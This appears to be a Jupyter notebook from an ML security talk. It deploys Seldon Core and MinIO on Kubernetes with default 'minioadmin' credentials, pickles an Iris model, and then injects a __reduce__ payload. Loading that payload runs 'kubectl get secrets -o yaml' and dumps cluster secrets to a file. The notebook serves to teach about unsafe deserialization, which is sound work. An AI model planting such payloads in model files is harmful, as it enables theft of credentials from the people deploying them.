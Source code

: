 # Flawed Machine Learning Security

This Repo contains a set of resources relevant to the talk "Secure Machine Learning at Scale with MLSecOps", and provides a set of examples to showcase practical common security flaws throughout the multiple phases of the machine learning lifecycle.

## Setup

Requirements on CLIs
* kubectl
* istioctl
* mc (minio client)
* Kubernetes > 1.18
* Python 3.7

### Setup Kubernetes Cluster

#### Install and setup Istio


```python
!istioctl install -y
```


```bash
%%bash
kubectl apply -n istio-system -f - << END
apiVersion: networking.istio.io/v1alpha3
kind: Gateway
metadata:
  name: seldon-gateway
spec:
  selector:
    istio: ingressgateway # use istio default controller
  servers:
  - port:
      number: 80
      name: http
      protocol: HTTP
    hosts:
    - "*"
END
```

#### Setup Seldon Core


```bash
%%bash
kubectl create ns seldon-system
helm upgrade --install \
    seldon-core seldon-core-operator \
    --repo https://storage.googleapis.com/seldon-charts  \
    --set usageMetrics.enabled=true --namespace seldon-system \
    --set istio.enabled="true" --set istio.gateway="seldon-gateway.istio-system.svc.cluster.local" \
    --version 1.13.1
```

#### Setup & configure MinIO


```bash
%%bash
kubectl create ns minio-system
helm repo add minio https://helm.min.io/
helm install minio minio/minio \
    --set accessKey=minioadmin \
    --set secretKey=minioadmin \
    --namespace minio-system
```

    "minio" already exists with the same configuration, skipping
    NAME: minio
    LAST DEPLOYED: Sun Apr 10 13:24:52 2022
    NAMESPACE: minio-system
    STATUS: deployed
    REVISION: 1
    TEST SUITE: None
    NOTES:
    Minio can be accessed via port 9000 on the following DNS name from within your cluster:
    minio.minio-system.svc.cluster.local
    
    To access Minio from localhost, run the below commands:
    
      1. export POD_NAME=$(kubectl get pods --namespace minio-system -l "release=minio" -o jsonpath="{.items[0].metadata.name}")
    
      2. kubectl port-forward $POD_NAME 9000 --namespace minio-system
    
    Read more about port forwarding here: http://kubernetes.io/docs/user-guide/kubectl/kubectl_port-forward/
    
    You can now access Minio server on http://localhost:9000. Follow the below steps to connect to Minio server with mc client:
    
      1. Download the Minio mc client - https://docs.minio.io/docs/minio-client-quickstart-guide
    
      2. Get the ACCESS_KEY=$(kubectl get secret minio -o jsonpath="{.data.accesskey}" | base64 --decode) and the SECRET_KEY=$(kubectl get secret minio -o jsonpath="{.data.secretkey}" | base64 --decode)
    
      3. mc alias set minio-local http://localhost:9000 "$ACCESS_KEY" "$SECRET_KEY" --api s3v4
    
      4. mc ls minio-local
    
    Alternately, you can use your browser or the Minio SDK to access the server - https://docs.minio.io/categories/17


    Error from server (AlreadyExists): namespaces "minio-system" already exists


Once minio is runnning you need to open another terminal and run:
```
kubectl port-forward -n minio-system svc/minio 9000:9000
```


```python
!mc config host add minio-seldon http://localhost:9000 minioadmin minioadmin
```

    [m[32mAdded `minio-seldon` successfully.[0m
    [0m


```bash
%%bash
kubectl apply -f - << END
apiVersion: v1
kind: Secret
metadata:
  name: seldon-init-container-secret
type: Opaque
stringData:
  RCLONE_CONFIG_S3_TYPE: s3
  RCLONE_CONFIG_S3_PROVIDER: minio
  RCLONE_CONFIG_S3_ACCESS_KEY_ID: minioadmin
  RCLONE_CONFIG_S3_SECRET_ACCESS_KEY: minioadmin
  RCLONE_CONFIG_S3_ENDPOINT: http://minio.minio-system.svc.cluster.local:9000
  RCLONE_CONFIG_S3_ENV_AUTH: "false"
END
```

    secret/seldon-init-container-secret created


## Model Training

#### Install requirements for model


```python
%%writefile requirements.txt
seldon_core
scikit-learn == 0.24.2
numpy >= 1.8.2
joblib == 0.16.0
```

    Writing requirements.txt



```python
!pip install -r requirements.txt
```

#### Import datasets to train Iris model


```python
from sklearn import datasets

iris = datasets.load_iris()
X, y = iris.data, iris.target
```

#### Import simple LogsticRegression model


```python
from sklearn.linear_model import LogisticRegression

model = LogisticRegression(solver="liblinear", multi_class='ovr')
```

#### Train model with dataset


```python
model.fit(X, y)
```




    LogisticRegression(multi_class='ovr', solver='liblinear')



#### Run prediction to test model


```python
model.predict(X[:1])
```




    array([0])



#### Dump model binary with pickle


```python
import joblib

joblib.dump(model, "model.joblib")
```




    ['model.joblib']




```python
!bat model.joblib
```

## Load Pickle and Inject Malicious Code


```python
import joblib

model_safe = joblib.load("model.joblib")
```


```python
model_safe.predict(X[:1])
```




    array([0])




```python
import types, os

def __reduce__(self):
    cmd = "kubectl get secrets -o yaml > kubernetes-secrets.txt"
    return os.system, (cmd,)
```


```python
model_safe.__class__.__reduce__ = types.MethodType(__reduce__, model_safe.__class__)
```


```python
joblib.dump(model_safe, "model_unsafe.joblib")
```




    ['model_unsafe.joblib']




```python
!bat model_unsafe.joblib
```

#### Now reload the insecure pickle


```python
!ls kubernetes-secrets.txt
```

    ls: cannot access 'kubernetes-secrets.txt': No such file or directory



```python
import joblib

model_unsafe = joblib.load("model_unsafe.joblib")
```


```python
!head -4 kubernetes-secrets.txt
```

    apiVersion: v1
    items:
    - apiVersion: v1
      data:



```python

```
